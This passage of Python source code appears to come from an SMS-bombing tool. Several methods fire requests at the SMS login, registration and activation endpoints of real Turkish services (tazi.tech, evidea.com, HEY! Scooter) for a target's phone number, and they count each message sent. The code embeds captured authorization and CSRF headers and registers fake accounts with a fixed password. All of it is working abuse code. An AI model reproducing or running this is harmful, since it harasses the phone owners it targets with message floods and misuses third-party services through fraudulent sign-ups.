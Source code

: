     #tazi.tech
    def Tazi(self):
        try:
            url = "https://mobileapiv2.tazi.tech:443/C08467681C6844CFA6DA240D51C8AA8C/uyev2/smslogin"
            headers = {"Accept": "application/json, text/plain, */*", "Content-Type": "application/json;charset=utf-8", "Accept-Encoding": "gzip, deflate", "User-Agent": "Taz%C4%B1/3 CFNetwork/1335.0.3 Darwin/21.6.0", "Accept-Language": "tr-TR,tr;q=0.9", "Authorization": "Basic dGF6aV91c3Jfc3NsOjM5NTA3RjI4Qzk2MjRDQ0I4QjVBQTg2RUQxOUE4MDFD"}
            json={"cep_tel": self.phone, "cep_tel_ulkekod": "90"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if (r.json()["kod"]) == "0000":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> mobileapiv2.tazi.tech")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> mobileapiv2.tazi.tech")
            
    
    #evidea.com
    def Evidea(self):
        try:
            url = "https://www.evidea.com:443/users/register/"
            headers = {"Content-Type": "multipart/form-data; boundary=fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi", "X-Project-Name": "undefined", "Accept": "application/json, text/plain, */*", "X-App-Type": "akinon-mobile", "X-Requested-With": "XMLHttpRequest", "Accept-Language": "tr-TR,tr;q=0.9", "Cache-Control": "no-store", "Accept-Encoding": "gzip, deflate", "X-App-Device": "ios", "Referer": "https://www.evidea.com/", "User-Agent": "Evidea/1 CFNetwork/1335.0.3 Darwin/21.6.0", "X-Csrftoken": "7NdJbWSYnOdm70YVLIyzmylZwWbqLFbtsrcCQdLAEbnx7a5Tq4njjS3gEElZxYps"}
            data = f"--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"first_name\"\r\n\r\nMemati\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"last_name\"\r\n\r\nBas\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"email\"\r\n\r\n{self.mail}\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"email_allowed\"\r\n\r\nfalse\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"sms_allowed\"\r\n\r\ntrue\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"password\"\r\n\r\n31ABC..abc31\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"phone\"\r\n\r\n0{self.phone}\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"confirm\"\r\n\r\ntrue\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi--\r\n"
            r = requests.post(url, headers=headers, data=data, timeout=6)      
            if r.status_code == 202:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> evidea.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> evidea.com") 


    #heyscooter.com.tr
    def Hey(self):
        try:
            url = f"https://heyapi.heymobility.tech:443/V14//api/User/ActivationCodeRequest?organizationId=9DCA312E-18C8-4DAE-AE65-01FEAD558739&phonenumber={self.phone}&requestid=18bca4e4-2f45-41b0-b054-3efd5b2c9c57-20230730&territoryId=738211d4-fd9d-4168-81a6-b7dbf91170e9"
            headers = {"Accept": "application/json, text/plain, */*", "Accept-Encoding": "gzip, deflate", "User-Agent": "HEY!%20Scooter/143 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Accept-Language": "tr"}
            r = requests.post(url, headers=headers, timeout=6)
            if r.json()["IsSuccess"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> heyapi.heymobility.tech")
                self.adet += 1